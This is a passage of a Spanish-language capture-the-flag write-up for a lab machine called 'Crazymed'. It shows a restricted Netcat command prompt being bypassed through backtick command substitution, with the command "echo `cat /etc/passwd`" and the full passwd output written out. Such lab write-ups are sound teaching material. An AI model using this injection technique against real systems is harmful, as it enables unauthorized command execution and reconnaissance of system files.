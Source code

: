 Aplicamos la contraseña por Netcat:

![](/assets/images/Crazymed/netcat.png)

Como podemos observar solo tenemos 4 comandos disponibles, mediante los cuales no nos permite hacer nada... ¿ o sí?

La clave está en la **sustitución de comandos.**

![](/assets/images/Crazymed/netcat2.png)

De aquí sacamos las siguientes conclusiones:

- Estamos accediendo como un usuario que se llama **brad**
- No sé si es un fallo intencionado o no, pero *who* nos indicaría los usuarios logueados en la máquina
- Sí funciona *whoami* en su defecto, el cual nos indica de nuevo que estamos conectados como **brad**
- No le gusta que juguemos con "$", lo considera un ataque

Ahora vamos a probar a capturar la salida del mismo comando "echo $(cat /etc/passwd)" pero escrito de la otra forma que existe, con acentos graves. 

~~~
System command: echo `cat /etc/passwd`
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/usr/sbin/nologin systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:109::/nonexistent:/usr/sbin/nologin systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin avahi-autoipd:x:105:114:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin sshd:x:106:65534::/run/sshd:/usr/sbin/nologin brad:x:1000:1000:brad,,,:/home/brad:/bin/bash systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin memcache:x:107:115:Memcached,,,:/nonexistent:/bin/false
~~~
